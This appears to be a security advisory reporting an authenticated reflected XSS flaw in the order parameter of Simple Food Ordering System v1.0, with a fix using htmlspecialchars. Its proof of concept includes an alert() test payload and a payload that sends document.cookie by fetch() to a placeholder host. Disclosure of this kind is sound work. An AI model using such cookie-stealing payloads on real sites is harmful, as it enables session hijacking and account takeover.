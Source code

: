 # Simple Food Ordering System - Authenticated Reflected Cross Site Scripting

### Date: 
> 17 February 2023

### Author Email: 
> navaidnasari@hotmail.co.uk

### Vendor Homepage:
> https://www.sourcecodester.com

### Software Link:
> [Simple Food Ordering System](https://www.sourcecodester.com/php/15418/simple-food-ordering-system-client-side-phpmysqli-free-source-code.html)

### Version:
> v 1.0

### What is Reflected Cross-Site Scripting:
> Reflected cross-site scripting (XSS) is a type of web vulnerability that occurs when a web application fails to properly sanitize user input, allowing an attacker to inject malicious code into the application's response to a user's request. When the user's browser receives the response, the malicious code is executed, potentially allowing the attacker to steal sensitive information or take control of the user's account.

### Affected Page: 
> Vulnerable Page: process_order.php

> In this page order parameter are vulnerable to Reflected Cross Site Scripting Attack

### Description:
> The Reflected XSS found in order parameter of process_order.php page. Authenticated Reflected Cross-Site Scripting (XSS) is a serious vulnerability that can have a significant impact on the security of a web application and its users. The risk of Authenticated Reflected XSS is similar to that of Reflected XSS, but with the added danger that the attacker must first gain access to a valid user account in order to exploit the vulnerability. The main risk associated with Authenticated Reflected XSS is that it can allow an attacker to steal sensitive information or take control of a user's account on a web application. This can include login credentials, financial information, personal information, and more. Once an attacker gains access to a user's account, they can perform any actions that the user is authorized to do. In addition, Authenticated Reflected XSS can also be used as a stepping stone to launch more advanced attacks, such as phishing attacks, malware distribution, or distributed denial-of-service attacks. By gaining control of a user's account on a web application, an attacker can use that account as a launching point for further attacks against the user or the web application itself.

### Proof of Concept:
> Initially, I tried to verify the XSS attack, I used standard XSS payload <script>alert("Verification");</script> and the Below Image confirmed that, the parameter is vulnerable to reflected XSS.

> Payload: process_order.php?order=<script>alert(1)<%2fscript>mjii5

> ![image](https://user-images.githubusercontent.com/123810418/219716828-62b529c9-8366-4051-8b2c-f9065b158089.png)

> Based on that, I have decided to make it realistic attack and use burp colloborator to hijack user cookie:

> Payload: process_order.php?order=<script>fetch(%27http://dummyurl/%27,{method:%27POST%27,mode:%27no-cors%27,body:document.cookie});</script>

>  ![image](https://user-images.githubusercontent.com/123810418/219717379-d085a7ec-29d4-4d2c-ba19-69e5011891e8.png)

### Recommendation: 
> Whoever uses this CMS, should update line no 41 of process_order.php with the following code to avoid cross-site scripting attack:
```
Old Code: <?php echo $_GET['order']; ?>
New Code: <?php echo htmlspecialchars(strip_tags($_GET['order'])); ?>
```

Thank you for reading
